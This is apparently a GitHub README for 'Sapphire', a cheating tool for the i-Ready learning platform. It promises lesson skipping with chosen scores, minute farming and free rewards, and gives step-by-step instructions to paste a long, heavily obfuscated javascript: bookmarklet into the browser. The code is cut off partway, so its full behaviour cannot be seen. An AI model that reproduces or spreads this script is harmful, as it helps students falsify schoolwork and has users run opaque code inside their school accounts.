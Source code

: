 <p align="center">
<img width="212" height="212" src="https://github.com/Sapphire-Inc/Sapphire/blob/a66e83abf4f082891288f00388a2c9ba4c36d41b/icon.png"/>
</p>

<p align="center">
Welcome to Sapphire, the best i-Ready hack to date.<br><br>
With this hack you can completely remove the stress that comes with doing i-Ready lessons and breeze through your lessons with ease.
</p>

<h2 align="center">Features</h2>

- **Lesson Skipper**: Skip through lessons with any score that you choose without having to complete the lesson.
- **Minute Farmer**: Obtain minutes without having to spend any time on the lesson while having i-Ready open in the background.
- **Enable all permissions**: Enable full access to all features within i-Ready such as learning games, rewards, etc.
- **Free Games**: Makes all rewards cost 0 coins allowing you to play games for free.

<h2 align="center">How to setup the hack.</h2>
<ol>
    <li>Toggle your bookmark bar by pressing <code>Ctrl + Shift + B</code> at the same time on your keyboard. If this doesn't work for you, find an alternative way on Google.</li>
    <li>Right-click an empty space on the bookmark bar and click "Add page".</li>
    <li>In the URL field paste in the bookmark code:<br>
        <pre><code>javascript:void%20function(){function%20wodfbG4(gqsYGxv){return%20c7bg1Q2[-88%3EgqsYGxv%3FgqsYGxv+37:-58%3EgqsYGxv%3F-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv+94:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-58:-58%3EgqsYGxv%3F-58%3CgqsYGxv%3FgqsYGxv-71:gqsYGxv+87:gqsYGxv-58:gqsYGxv+91:gqsYGxv+82:gqsYGxv-27]}function%20VJ3Wito(c7bg1Q2,gqsYGxv){return%20Object.defineProperty(c7bg1Q2,%22length%22,{value:gqsYGxv,configurable:!0}),c7bg1Q2}function%20Zbyy0m(){try{return%20global||window||new%20Function(%22return%20this%22)()}catch(e){try{return%20this}catch(e){return{}}}}function%20NFIhU8(...gqsYGxv){var%20yJbuoe4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-98%3EgqsYGxv%3FgqsYGxv-59:-98%3CgqsYGxv%3F-68%3CgqsYGxv%3FgqsYGxv-11:-68%3CgqsYGxv%3FgqsYGxv+48:gqsYGxv+97:gqsYGxv+16],1);return%20typeof(gqsYGxv.length=yJbuoe4(-93),gqsYGxv.e0ndfE=gqsYGxv[0]),%22undefined%22!=typeof%20D_xE7rG%26%26D_xE7rG%3Fnew%20D_xE7rG().decode(new%20u457kSb(gqsYGxv.e0ndfE)):%22undefined%22!=typeof%20G50XPAt%26%26G50XPAt%3FG50XPAt.from(gqsYGxv.e0ndfE).toString(%22utf-8%22):bHK_Oj8(gqsYGxv.e0ndfE)}function%20cOjySPZ(...gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-9%3CgqsYGxv%3F-9%3CgqsYGxv%3F-9%3CgqsYGxv%3FgqsYGxv+8:gqsYGxv+87:gqsYGxv+93:gqsYGxv-27],1);switch(typeof(gqsYGxv.length=1,gqsYGxv[D_xE7rG(7)]=38,gqsYGxv[D_xE7rG(19)]=fRPLwmU(91),gqsYGxv[2]=fRPLwmU[D_xE7rG(2)](wodfbG4(-81),[gqsYGxv[wodfbG4(-72)]+34]),gqsYGxv[3]=fRPLwmU(65),gqsYGxv[gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-4)]=fRPLwmU[wodfbG4(-77)](void%200,[50]),gqsYGxv[wodfbG4(-65)]=[fRPLwmU(gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-49)),fRPLwmU(49),fRPLwmU(D_xE7rG(8))],gqsYGxv[D_xE7rG(-5)]={WAlRDE:fRPLwmU[D_xE7rG(2)](void%200,[41]),LOBZuK:fRPLwmU(54),CzS2NgJ:fRPLwmU(57),RyiPeXR:fRPLwmU(62),o4mqVHz:fRPLwmU(70)},gqsYGxv.T0UKzFk=fRPLwmU(38),gqsYGxv[8]=fRPLwmU(gqsYGxv[144]-3),gqsYGxv[9]=fRPLwmU(wodfbG4(-80)),gqsYGxv.PZzlp3=fRPLwmU(29),gqsYGxv[gqsYGxv[144]-27]=D_xE7rG(-2)),gqsYGxv[0]){case-80%3Cgm7NiX9.ZcAKhwn%3F-604:D_xE7rG(-2):gqsYGxv[gqsYGxv[D_xE7rG(7)]-27]=fRPLwmU[D_xE7rG(2)](void%200,[wodfbG4(-70)])||Jvka6e7[fRPLwmU(D_xE7rG(9))];break;case-wodfbG4(-69):return%20lveDxmA[fRPLwmU(29)]||Jvka6e7[gqsYGxv.PZzlp3];case%20wodfbG4(-68):return%20lveDxmA[vhiZu34]||Jvka6e7[fRPLwmU(30)];case-wodfbG4(-71):gqsYGxv[gqsYGxv[144]-(gqsYGxv[144]-11)]=gqsYGxv[9]||Jvka6e7[Oz6bwi.kybxeW];break;case%20349:return%20lveDxmA[fRPLwmU(gqsYGxv[144]-6)]||Jvka6e7[fRPLwmU(32)];case%20198:return%20lveDxmA[fRPLwmU(D_xE7rG(16))]||Jvka6e7[fRPLwmU(33)];case%20747:return%20lveDxmA[fRPLwmU(34)]||Jvka6e7[fRPLwmU(34)];case%204443:gqsYGxv[D_xE7rG(3)]=gqsYGxv[8]||Jvka6e7[Oz6bwi.W_5Z9m+%22on%22];break;case%204337:gqsYGxv[gqsYGxv[144]-27]=fRPLwmU(gqsYGxv[144]-1)||Jvka6e7[fRPLwmU(37)];break;case%203499:return%20lveDxmA[gqsYGxv.T0UKzFk]||Jvka6e7[PoqJaj4];case-80%3Cgm7NiX9.ZcAKhwn%3F2976:-17:gqsYGxv[wodfbG4(-76)]=fRPLwmU(39)||Jvka6e7[fRPLwmU(39)];break;case%203182:gqsYGxv[D_xE7rG(3)]=A0fZOq||Jvka6e7[gqsYGxv[D_xE7rG(-5)].WAlRDE+fRPLwmU(42)+fRPLwmU(43)];break;case%20gm7NiX9.aj79foI()%3F2289:D_xE7rG(17):gqsYGxv[D_xE7rG(3)]=fRPLwmU(44)+fRPLwmU(45)||Jvka6e7[fRPLwmU(46)];break;case%20gm7NiX9.aj79foI()%3F14:-21:return%20lveDxmA[fRPLwmU[wodfbG4(-77)](void%200,[47])]||Jvka6e7[fRPLwmU(47)];case%20gm7NiX9.Jnj75T_()%3F3553:211:gqsYGxv[wodfbG4(-76)]=fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),wodfbG4(-66))+D_xE7rG(12)||Jvka6e7[fRPLwmU(D_xE7rG(13))+%22nt%22];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1144:-63:gqsYGxv[11]=gqsYGxv[wodfbG4(-65)][D_xE7rG(-8)]||Jvka6e7[gqsYGxv[5][D_xE7rG(-4)]];break;case%202604:gqsYGxv[wodfbG4(-76)]=fRPLwmU(50)||Jvka6e7[gqsYGxv[gqsYGxv[144]-34]];break;case-80%3Cgm7NiX9.ZcAKhwn%3F4618:-132:return%20lveDxmA[fRPLwmU(51)]||Jvka6e7[fRPLwmU(51)];case%20469:gqsYGxv[11]=fRPLwmU(D_xE7rG(15))||Jvka6e7[fRPLwmU(D_xE7rG(15))];break;case%20gqsYGxv[gqsYGxv[wodfbG4(-72)]+D_xE7rG(18)]+3368:gqsYGxv[wodfbG4(-76)]=fRPLwmU.apply(D_xE7rG(-2),[53])||Jvka6e7[fRPLwmU[wodfbG4(-79)](void%200,53)];break;case%20517:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-32].LOBZuK||Jvka6e7[tGjQWA];break;case%201619:gqsYGxv[wodfbG4(-76)]=fRPLwmU(55)||Jvka6e7[fRPLwmU(56)+%22on%22];break;case%20gqsYGxv[D_xE7rG(7)]+3048:return%20lveDxmA[gqsYGxv[gqsYGxv[144]-D_xE7rG(16)][2]]||Jvka6e7[gqsYGxv[6].CzS2NgJ];case%20gm7NiX9.aj79foI()%3FgqsYGxv[D_xE7rG(7)]+2704:118:return%20lveDxmA[fRPLwmU.apply(wodfbG4(-81),[58])]||Jvka6e7[fRPLwmU(58)];case%20gqsYGxv[wodfbG4(-72)]+2950:return%20lveDxmA[fRPLwmU(59)]||Jvka6e7[fRPLwmU(59)];case%20gm7NiX9.aj79foI()%3F2209:172:gqsYGxv[11]=cIgtvcT[wodfbG4(-83)]||Jvka6e7[fRPLwmU(60)];break;case%201051:gqsYGxv[wodfbG4(-76)]=fRPLwmU(61)||Jvka6e7[gqsYGxv[D_xE7rG(-5)].RyiPeXR+fRPLwmU.call(void%200,wodfbG4(-85))];break;case%20gm7NiX9.aj79foI()%3F720:-118:gqsYGxv[wodfbG4(-76)]=fRPLwmU(D_xE7rG(17))||Jvka6e7[gqsYGxv[gqsYGxv[wodfbG4(-72)]-35]+fRPLwmU(66)+%22or%22];break;case%20gm7NiX9.Jnj75T_()%3F4226:110:return%20lveDxmA[fRPLwmU(67)]||Jvka6e7[fRPLwmU(68)+fRPLwmU(69)];case%20gm7NiX9.Jnj75T_()%3F1201:66:gqsYGxv[11]=gqsYGxv[gqsYGxv[144]-(gqsYGxv[wodfbG4(-72)]-6)].o4mqVHz||Jvka6e7[fRPLwmU(70)];break;case%202037:gqsYGxv[gqsYGxv[wodfbG4(-72)]-27]=fRPLwmU(71)||Jvka6e7[fRPLwmU(71)];break;case%204842:gqsYGxv[11]=fRPLwmU(72)||Jvka6e7[gqsYGxv[2]];break;case%20gm7NiX9.Jnj75T_()%3F2302:-(gqsYGxv[144]-14):return%20lveDxmA[fRPLwmU(gqsYGxv[D_xE7rG(7)]+35)]||Jvka6e7[fRPLwmU(gqsYGxv[144]+35)];case%20163:return%20lveDxmA[fRPLwmU(gqsYGxv[gqsYGxv[D_xE7rG(7)]+wodfbG4(-61)]+36)]||Jvka6e7[fRPLwmU(75)+fRPLwmU.apply(void%200,[76])+%22l%22];case%201055:return%20lveDxmA[fRPLwmU(77)+fRPLwmU(78)]||Jvka6e7[fRPLwmU(79)];case%20gm7NiX9.aj79foI()%3F3506:-(gqsYGxv[144]+164):return%20lveDxmA[fRPLwmU(80)]||Jvka6e7[fRPLwmU(80)];case%2039:return%20lveDxmA[fRPLwmU[wodfbG4(-79)](D_xE7rG(-2),81)+fRPLwmU(gqsYGxv[D_xE7rG(7)]+44)+%22sk%22]||Jvka6e7[fRPLwmU(83)];case%20815:return%20lveDxmA[fRPLwmU(D_xE7rG(-7))]||Jvka6e7[fRPLwmU(wodfbG4(-86))];case%204584:return%20lveDxmA[hKWXIT0+%22te%22]||Jvka6e7[fRPLwmU[D_xE7rG(2)](D_xE7rG(-2),[86])];case%20717:return%20lveDxmA[fRPLwmU(87)]||Jvka6e7[fRPLwmU(87)];case%205200:gqsYGxv[11]=cIgtvcT[2]||Jvka6e7[fRPLwmU(gqsYGxv[wodfbG4(-72)]+50)];break;case-80%3Cgm7NiX9.ZcAKhwn%3F1073:-(gqsYGxv[wodfbG4(-72)]+197):return%20lveDxmA[fRPLwmU(89)]||Jvka6e7[fRPLwmU(gqsYGxv[144]-(gqsYGxv[D_xE7rG(7)]-89))];case%20gm7NiX9.ZcAKhwn%3E-(gqsYGxv[wodfbG4(-72)]+42)%3FgqsYGxv[144]+4142:125:return%20lveDxmA[fRPLwmU(90)]||Jvka6e7[fRPLwmU.apply(void%200,[90])];case%20gm7NiX9.aj79foI()%3FgqsYGxv[wodfbG4(-72)]+3562:-202:gqsYGxv[wodfbG4(-76)]=fRPLwmU.call(D_xE7rG(-2),gqsYGxv[144]+53)||Jvka6e7[gqsYGxv[wodfbG4(-60)]];}if(gqsYGxv[gqsYGxv[wodfbG4(-72)]+106]%3EgqsYGxv[D_xE7rG(7)]+130)return%20gqsYGxv[gqsYGxv[D_xE7rG(7)]-134];var%20u457kSb=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-36%3CgqsYGxv%3F-6%3EgqsYGxv%3F-6%3CgqsYGxv%3FgqsYGxv+45:-6%3CgqsYGxv%3FgqsYGxv+44:-6%3EgqsYGxv%3F-36%3EgqsYGxv%3FgqsYGxv+15:gqsYGxv+35:gqsYGxv+23:gqsYGxv+83:gqsYGxv-42],1);return%20lveDxmA[gqsYGxv[u457kSb(-24)]]||Jvka6e7[gqsYGxv[11]]}function%20_18eSmz(gqsYGxv){var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-47%3EgqsYGxv%3F-47%3CgqsYGxv%3FgqsYGxv+36:-47%3CgqsYGxv%3FgqsYGxv-30:-47%3EgqsYGxv%3F-77%3CgqsYGxv%3F-77%3EgqsYGxv%3FgqsYGxv-20:-47%3CgqsYGxv%3FgqsYGxv+25:gqsYGxv+76:gqsYGxv-75:gqsYGxv-82:gqsYGxv-29],1);const%20u457kSb=%22ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789!%23$%25%26()*+,./:;%3C=%3E%3F%40[]^_`{|}~\%22%22,G50XPAt=%22%22+(gqsYGxv||%22%22),yJbuoe4=G50XPAt.length,E3N75UI=[];let%20bHK_Oj8=wodfbG4(-87),hKWXIT0=wodfbG4(-87),tGjQWA=-1;for(let%20A0fZOq=D_xE7rG(-76);A0fZOq%3CyJbuoe4;A0fZOq++){var%20PoqJaj4=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[73%3CgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv-39:103%3EgqsYGxv%3F73%3EgqsYGxv%3FgqsYGxv+73:73%3EgqsYGxv%3FgqsYGxv+59:73%3EgqsYGxv%3FgqsYGxv-4:73%3CgqsYGxv%3F103%3EgqsYGxv%3F103%3EgqsYGxv%3FgqsYGxv-74:gqsYGxv+91:gqsYGxv+64:gqsYGxv-20:gqsYGxv-55:gqsYGxv-31],1);const%20vhiZu34=u457kSb.indexOf(G50XPAt[A0fZOq]);if(vhiZu34!==-PoqJaj4(78))if(tGjQWA%3CPoqJaj4(74))tGjQWA=vhiZu34;else{var%20EkeB8w=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[40%3CgqsYGxv%3FgqsYGxv+64:10%3EgqsYGxv%3FgqsYGxv-17:10%3EgqsYGxv%3FgqsYGxv-30:10%3EgqsYGxv%3FgqsYGxv+54:40%3EgqsYGxv%3FgqsYGxv-11:gqsYGxv-34],1);void(tGjQWA+=91*vhiZu34,bHK_Oj8|=tGjQWA%3C%3ChKWXIT0,hKWXIT0+=88%3C(8191%26tGjQWA)%3F13:14);do%20typeof(E3N75UI.push(255%26bHK_Oj8),bHK_Oj8%3E%3E=PoqJaj4(102),hKWXIT0-=wodfbG4(-59));while(7%3ChKWXIT0);tGjQWA=-EkeB8w(15)}}return%20tGjQWA%3E-D_xE7rG(-72)%26%26E3N75UI.push(255%26(bHK_Oj8|tGjQWA%3C%3ChKWXIT0)),NFIhU8(E3N75UI)}function%20fRPLwmU(c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb=_18eSmz,G50XPAt=MYjS9GS){return%20D_xE7rG%3FgqsYGxv[MYjS9GS[D_xE7rG]]=fRPLwmU(c7bg1Q2,gqsYGxv):(gqsYGxv%26%26([G50XPAt,gqsYGxv]=[u457kSb(G50XPAt),c7bg1Q2||D_xE7rG]),gqsYGxv%3Fc7bg1Q2[G50XPAt[gqsYGxv]]:MYjS9GS[c7bg1Q2]||(D_xE7rG=(G50XPAt[c7bg1Q2],u457kSb),MYjS9GS[c7bg1Q2]=D_xE7rG(A6Twwm[c7bg1Q2])))}function%20Kiid84(){return[0,84,63,6,1,18,void%200,31,%22call%22,10,%22apply%22,11,12,15,20,144,57,28,346,732,%22nt%22,48,5,52,33,64,106,%22PreT_aq%22,8]}function%20m3yPSyQ(c7bg1Q2,gqsYGxv){var%20D_xE7rG=function(){return%20c7bg1Q2(...arguments)};return%20Object.defineProperty(D_xE7rG,%22length%22,{value:gqsYGxv,configurable:!0}),D_xE7rG}var%20c7bg1Q2,gqsYGxv,D_xE7rG,u457kSb,G50XPAt,yJbuoe4,E3N75UI,bHK_Oj8,hKWXIT0,tGjQWA,A0fZOq,PoqJaj4,vhiZu34,EkeB8w,l3yV9zv,cIgtvcT,Oz6bwi,p3n0km7,Hgut65,gm7NiX9;c7bg1Q2=Kiid84.call(this);var%20MYjS9GS=[],Hxt2bEW=wodfbG4(-87),A6Twwm=m3yPSyQ((...gqsYGxv)=%3E{var%20D_xE7rG=m3yPSyQ(gqsYGxv=%3Ec7bg1Q2[-32%3EgqsYGxv%3F-62%3EgqsYGxv%3FgqsYGxv+32:-62%3CgqsYGxv%3F-32%3CgqsYGxv%3FgqsYGxv+37:-62%3EgqsYGxv%3FgqsYGxv+62:-32%3EgqsYGxv%3FgqsYGxv+61:gqsYGxv+66:gqsYGxv-72:gqsYGxv-80],1);return%20gqsYGxv.length=D_xE7rG(-61),gqsYGxv[D_xE7rG(-60)]=gqsYGxv.fhDtzr,!(gqsYGxv[84]=m3yPSyQ(gqsYGxv=%3E{for(var%20D_xE7rG,u457kSb,c7bg1Q2=16;0==c7bg1Q2%254;c7bg1Q2++)u457kSb=0,gqsYGxv=gqsYGxv.concat(m3yPSyQ(()=%3E{var%20D_xE7rG;if(u457kSb++,1===u457kSb)return[];for(D_xE7rG=74;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return[]},0)());for(D_xE7rG=46;D_xE7rG;D_xE7rG--)gqsYGxv.unshift(gqsYGxv.pop());return%20gqsYGxv},1)([%22[i/2s)%40Yg%23c.B%22,%22arU=i%3EueG%22,%22EE0=f,3B%22,%22EE0=f,F*2$9/B%22,%228DVKa%22,%22Y2~zT%22,%22vzbgN:8eG%22,%22Q5zg7=YC%22,%22_q.Je,]%40G%22,%22=7U==[${lT%22,%22=7U==[cC%22,%22tG%3Ef]*yC%22,%22gzzgh`A%22,%22vz.Jn`A%22,%22kz0=r%40A%22,%22X,jg/w*N2T5%22,%22X,jg/wuC%22,%22prFK%22,%22}Oufp%40\%22%40s!1HwbRnXB%22,%22}Oufp%40UC%22,%227Jmfh%40uC%22,%22%25DU=c,+MM%25`+B%22,%22%25DU=c,vB%22,%22[z/2c%22,%227!zI;w*N2T5%22,%22ePVKH:we2$,/B%22,%22=imfo%40s0W$8%26PyO%22,%22eP(gz=!eKUGv*E%22,%22=imfo%40i%40r%25%40+pQKm%22,%22=imfo%403B%22,%22r5_1b^MC%22,%22eP(g%3E%3CkC%22,%22hM+f=[UC%22,%22eP(g%3E%3Cwe8!\%22ui9M%22,%22=imfo%40):W$Rz%40P_oKB%22,%22d8mfg,%23B%22,%222J0=%40[MC%22,%22d8mfg,e0rR(%26hQ0oQB%22,%2232kdL3A%22,%2232%23c7=cC%22,%2232%23c7=:Y%3CR%22,%22~OVK%22,%228D%40J%22,%22CPH%3C86%26YH%22,%22CPH%3Co2MCH%22,%22W,52e%3EiC%22,%22gDCz$uFN%408iw(]nf%40lk=3%23.SG$F6r+bpH%23h.l/rB%22,%22}t=aG*A%22,%22c,42[hU07U4ENQ5qp:A2YvAe%234O]5kG%22,%22RJa;\%22t/N!4E6B%22,%22i:z.``I6$Pi%3Cna+l{i,%3C(%3F|`hJfHf]yof2M3N[iC%22,%22lz]I)wJB0TQY$b1o[ig/%3F3uChS%22,%22R8b.F[DZD$[4+NFSul+,;!oo%401A.F_}cJMB281gC%22,%22,qHJ7=MSq!z%3CXyra{/Q%3EQ%22,%22XPU=%3E[aC%22,%22dP(gt%40mCmUW6GF%22,%22]DwJb%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qjr2f7=A%22,%22,z_1Z%22,%22,X,%3C:Wy{2$%40%23,a,l.I01/WT[G$9t08jLGE$JO%3EmCcS,/%23myU%25qC=(.H[P1%3F%23Z9Win,2,e%3E.{C$q3N.4P\%22ye3/Wzvx%236tH^Qn)l01z;eGR%23S6=EHn7J^IY%40%26YwS90ix9jsoB%22,%22{zYJg,A%22,%22~ZB2w)we$yd6mx%26kbGdE[hGM7F40k^$k%3E]uZ[hRdAG=598DMDSzg_%3CrN8y+/fy8jbGN%3Cr%40eeKUet3^;mG=;Ci%3EP1r%25!%26gbeLoaIh3+bBn%25L)zC_Q9\%22B9Akm:;C5p|Ly%23;44beLs%3C%3Cve%3EFZ3$Q]lB:U+_/.}/tNN!60(C%22,%22l5VKR[9`aI$%26.P;m;ZAxf,6YfVsxO99Qw5dKc,_YfI}uGF3iDEFKeh!{W$y%22,%22fP1Kd%22,%22dP%40Jv)ceG%22,%22K2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40PiWutanl;%3FnRL;3mdQ42Dwhq^RsRb6{x|VK2)1O:}Y%25y|+58DMl5VKR[9`aI901.%3FijrdKL:EIL%25h%25L^rm+LG3%23:Mum$lw1YYiurbKY%3CGI8!T%3C`%40toHu%40JM:6eOId.C*QV}1)1O:}Y~Ko%26H^cj%26`B%22,%22ar$Jg,_Yj8Z%25Q^\%22p%22,%22brWf~%3CUC%22,%22qaNKj%3EN1H%22,%22c8NK86QIr%25y%22,%22}1(g7+UC%22,%22r5PEt)wC%22,%22+Gbgo%40SC%22,%22CXbge,A%22,%22;i_1[[A%22,%22brWf~%3C\%22%40qU%22,%22RP)=l/A%22,%22DSzg_%3CUC%22,%225a$Jf%3E4C%22,%22nrNKr2JTc%25j3pE%22,%22ar%252L:7;G%22,%22jrWf=[${lT%22,%22jrWf=[cC%22,%22f5bgY%22,%22e5/2Y%22,%229on%3C`*MC%3CR%22,%22toX%3C5+ges74EO9wn3o_1%40[A%22,%22toX%3C5+UC%22,%220z|/W%3EkC%22,%22nrTg6=yC%22,%22[i/2s)iC%22,%22nX,%3Cc%22])),(Hxt2bEW%3FgqsYGxv[D_xE7rG(-60)].pop():Hxt2bEW++,gqsYGxv[84])},0)();gqsYGxv=Zbyy0m()||{},D_xE7rG=gqsYGxv.TextDecoder,u457kSb=gqsYGxv.Uint8Array,G50XPAt=gqsYGxv.Buffer,yJbuoe4=gqsYGxv.String||String,E3N75UI=gqsYGxv.Array||Array,bHK_Oj8=m3yPSyQ(()=%3E{var%20D_xE7rG,u457kSb,gqsYGxv=new%20E3N75UI(128);return%20D_xE7rG=yJbuoe4.fromCodePoint||yJbuoe4.fromCharCode,!(u457kSb=[]),m3yPSyQ(G50XPAt=%3E{function%20hKWXIT0(G50XPAt){return%20c7bg1Q2[55%3CG50XPAt%3F55%3CG50XPAt%3F85%3EG50XPAt%3F55%3EG50XPAt%3FG50XPAt-25:G50XPAt-56:G50XPAt-79:G50XPAt-22:G50XPAt+47]}var%20E3N75UI,bHK_Oj8,tGjQWA,A0fZOq;for(E3N75UI=G50XPAt.length,!(u457kSb.length=hKWXIT0(56)),bHK_Oj8=hKWXIT0(56);bHK_Oj8%3CE3N75UI;){if(A0fZOq=G50XPAt[bHK_Oj8++],127%3E=A0fZOq)tGjQWA=A0fZOq;else%20if(223%3E=A0fZOq){var%20PoqJaj4=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[66%3EG50XPAt%3F66%3CG50XPAt%3FG50XPAt-41:66%3EG50XPAt%3F66%3EG50XPAt%3F36%3CG50XPAt%3F36%3EG50XPAt%3FG50XPAt-2:36%3CG50XPAt%3F36%3CG50XPAt%3F66%3EG50XPAt%3FG50XPAt-37:G50XPAt+61:G50XPAt-40:G50XPAt+90:G50XPAt+86:G50XPAt+6:G50XPAt-70:G50XPAt-6],1);tGjQWA=(A0fZOq%26wodfbG4(-80))%3C%3CPoqJaj4(40)|63%26G50XPAt[bHK_Oj8++]}else%20if(239%3E=A0fZOq){var%20vhiZu34=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[-44%3CG50XPAt%3F-14%3EG50XPAt%3FG50XPAt+43:G50XPAt+87:G50XPAt+51],1);tGjQWA=(A0fZOq%26vhiZu34(-30))%3C%3C12|(G50XPAt[bHK_Oj8++]%26wodfbG4(-85))%3C%3C6|63%26G50XPAt[bHK_Oj8++]}else%20if(yJbuoe4.fromCodePoint){var%20EkeB8w=m3yPSyQ(G50XPAt=%3Ec7bg1Q2[37%3EG50XPAt%3FG50XPAt+71:67%3CG50XPAt%3FG50XPAt+48:67%3EG50XPAt%3F37%3EG50XPAt%3FG50XPAt+74:37%3EG50XPAt%3FG50XPAt-75:67%3CG50XPAt%3FG50XPAt-4:37%3CG50XPAt%3F67%3EG50XPAt%3FG50XPAt-38:G50XPAt-23:G50XPAt-7:G50XPAt+56],1);tGjQWA=(7%26A0fZOq)%3C%3CwodfbG4(-82)|(G50XPAt[bHK_Oj8++]%26hKWXIT0(58))%3C%3C12|(63%26G50XPAt[bHK_Oj8++])%3C%3CwodfbG4(-84)|G50XPAt[bHK_Oj8++]%26EkeB8w(40)}else%20tGjQWA=63,!(bHK_Oj8+=3);u457kSb.push(gqsYGxv[tGjQWA]||(gqsYGxv[tGjQWA]=D_xE7rG(tGjQWA)))}return%20u457kSb.join(%22%22)},1)},0)(),!VJ3Wito(NFIhU8,wodfbG4(-83)),typeof(hKWXIT0=fRPLwmU(85),tGjQWA=fRPLwmU(54),A0fZOq=fRPLwmU.apply(wodfbG4(-81),[40]),PoqJaj4=fRPLwmU(38),vhiZu34=fRPLwmU(30),EkeB8w=fRPLwmU(19),l3yV9zv=fRPLwmU(wodfbG4(-82)),cIgtvcT=[fRPLwmU.apply(wodfbG4(-81),[16]),fRPLwmU(60),fRPLwmU[wodfbG4(-79)](wodfbG4(-81),88)],Oz6bwi={Ze39T_f:fRPLwmU(wodfbG4(-75)),kybxeW:fRPLwmU(wodfbG4(-80)),W_5Z9m:fRPLwmU[wodfbG4(-77)](void%200,[36])},p3n0km7=fRPLwmU(wodfbG4(-76)),Hgut65=fRPLwmU(9),gm7NiX9=m3yPSyQ(()=%3E{var%20c7bg1Q2={AYX0G4l:[],aj79foI:m3yPSyQ((c7bg1Q2=fRPLwmU[wodfbG4(-79)](wodfbG4(-81),wodfbG4(-59)))=%3E(gm7NiX9.t9Ebd9[0]||gm7NiX9.t9Ebd9.push(-77),gm7NiX9.t9Ebd9[c7bg1Q2]),0),Jnj75T_:m3yPSyQ((c7bg1Q2=fRPLwmU(8))=%3E(gm7NiX9.AYX0G4l[0]||gm7NiX9.AYX0G4l.push(-85),gm7NiX9.AYX0G4l[c7bg1Q2]),0),t9Ebd9:[],ZcAKhwn:35};return%20c7bg1Q2},0)());var%20lveDxmA,Jvka6e7,yfCzIF=function(){function%20u457kSb(gqsYGxv){return%20c7bg1Q2[81%3EgqsYGxv%3FgqsYGxv-1:111%3EgqsYGxv%3F81%3EgqsYGxv%3FgqsYGxv-59:111%3CgqsYGxv%3FgqsYGxv-48:81%3CgqsYGxv%3FgqsYGxv-82:gqsYGxv-78:gqsYGxv-85]}var%20gqsYGxv,D_xE7rG;return%20typeof(gqsYGxv=function(){try{return%20window||global||new%20Function(Hgut65)()}catch(e){return%20D_xE7rG[fRPLwmU(wodfbG4(-78))](this)}},D_xE7rG=function(){try{return%20this}catch(e){return%20null}}),Jvka6e7=D_xE7rG[fRPLwmU(u457kSb(91))](this,cOjySPZ),lveDxmA=gqsYGxv[fRPLwmU(u457kSb(91))](this)}[fRPLwmU(10)]();(async()=%3E{function%20u457kSb(gqsYGxv){return%20c7bg1Q2[127%3EgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv+57:97%3CgqsYGxv%3F97%3CgqsYGxv%3F127%3CgqsYGxv%3FgqsYGxv-68:127%3CgqsYGxv%3FgqsYGxv-80:127%3CgqsYGxv%3FgqsYGxv+23:127%3CgqsYGxv%3FgqsYGxv-40:127%3CgqsYGxv%3FgqsYGxv+80:gqsYGxv-98:gqsYGxv-76:gqsYGxv-26:gqsYGxv-72]}var%20gqsYGxv,D_xE7rG;if(gqsYGxv=[fRPLwmU[wodfbG4(-77)](wodfbG4(-81),[22]),fRPLwmU(26),fRPLwmU(27)],!(D_xE7rG={jBJTpl:fRPLwmU(